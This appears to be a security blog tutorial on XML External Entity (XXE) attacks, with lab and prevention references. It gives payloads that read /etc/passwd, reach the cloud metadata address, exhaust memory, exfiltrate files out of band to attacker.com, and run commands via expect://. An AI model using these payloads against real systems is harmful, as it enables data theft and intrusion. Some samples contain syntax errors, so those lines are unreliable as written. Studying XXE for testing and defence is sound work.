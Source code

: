 ```yaml
---
layout:     post
title:      XXE
subtitle:   
date:       2020-01-13
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - XXE
---
```


### XML & DTD quick intro

What is XML
- eXtensible Markup Language
- Structured syntax
- Designed to be human readable as well as machine readable

example:
```
<?xml version = "1.0" encoding = "utf-8"?>
<plane>
	<year> 1977 </year>
	<make> Cessna </make>
</plane>
```

DTD
- Document Type Definition
- Used for defining XML document structure
- Can also defined outside of the XML file(External)

```
<!DOCTYPE root-element [element-declarations]>
```
types of entities:
- Internal entity
```
<!ENTITY foo "bar">
```
This entity can be referred within the XML as &foo; and it will be replaced 
with the term "bar".

- External entity
```
<!ENTITY foo SYSTEM "file:///external.dtd">
```
We are mostly interested in the External entities.
- Parammeter
```
<!ENTITY % name "entity_value">
```
Used with % symbol

### Introduction to XXE
### Types of attacks

1. Classic XXE

**example:**

```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE foo[<!ENTITY xxe "thisistest">]>
<userInfo>
	<firstName>John</firstName>
	<lastName>&xxe;</lastName>
</userInfo>

Output:
Hello John thisistest
```
This is not a vulnerability yet!

```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE foo[<!ENTITY xxe SYSTEM  "file:///etc/passwd">]>
<userInfo>
	<firstName>John</firstName>
	<lastName>&xxe;</lastName>
</userInfo>

Output:
Hello John root:x:0:0:root
...
....[SNIP]
```
Now it is.


2. Server Side Request Forgery

**example:**

```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE foo[<!ENTITY xxe SYSTEM  "http://169.254.169.254">]>
<userInfo>
	<firstName>John</firstName>
	<lastName>&xxe;</lastName>
</userInfo>

Output:
Hello John 1.0
2007-01-09
2007-03-01
...
....[SNIP]
```

3. Denial of Service

**example:**

```
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE lolz[<!ENTITY log "log"><!ENTITY lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol4 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol5 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol6 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol7 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol8 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol9 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">]>
<tag>&lol9;</tag>
```
4. Advanced XXE

**example:**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data[<!ENTITY % remote SYSTEM "http://attacker.com/call.dtd">%remote;]>
```

Parameter entities are special type of entities that can be used only withina DTD itself.
Tip:Use this payload to check for XXE vulnerabilities when user input is not reflected back on the page or in the response.

- Also know as Blind XXE
- Out of band data exfiltration
The payload to upload/send

```
<!DOCTYPE roottag[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://attacker.com/host.dtd">
%dtd;]>
<roottag>&send;</roottag>
```

Content of host.dtd

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/collect.php?file=%file;'>">
%all;
```

5. Remote Code Execution
In some rare cases XXE can be elevated to execute system commands on the server
expect:// awesomeness!
expect:// is a PHP wrapper that can provide access to stdio, stdout and stderr.
In short, it can execute commands!
Sample payload :

```
<!DOCTYPE replace [<!ENTITY ent SYSTEM "expect://whoami"> ]>
```

<https://medium.com/@airman604/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7>
### Common places to find XXE
- XML file upload(e.g config files)
- XML input fields
- XML based APIs
- XML based files(RSS,SVG)
### uncommon places to find XXE
- MS Office files(docx,xlsx,etc.)
- SAML-based SSO
- VoiceXML in IVR systems
- Online Map editors using KML


### Tools

*  Xxeserv
A mini webserver with FTP support for XXE payloads

* oxml_xxe
A tool for embedding XXE/XML exploits into different filetypes

### Labs 
<https://github.com/jbarone/xxelab>

### Resource and References
<https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html>
<https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Preve
ntion_Cheat_Sheet.html>
<https://github.com/jbarone/xxelab>
<http://vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf>
